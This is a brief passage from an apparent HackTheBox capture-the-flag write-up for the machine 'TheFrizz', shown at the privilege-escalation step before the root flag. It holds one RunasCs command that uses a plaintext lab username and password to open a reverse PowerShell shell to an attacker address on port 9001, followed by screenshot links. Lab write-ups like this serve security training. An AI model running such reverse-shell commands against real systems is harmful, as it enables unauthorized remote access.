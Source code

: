 ```powershell
.\RunasC.exe "M.SchoolBus" '!suBcig@MehTed!R' powershell.exe -r 10.10.14.7:9001
```

### Root flag

![alt text](/assets/img/writeups/hackthebox/theFrizz-htb-s7/image-11.png)

![alt text](/assets/img/writeups/hackthebox/theFrizz-htb-s7/image-12.png)
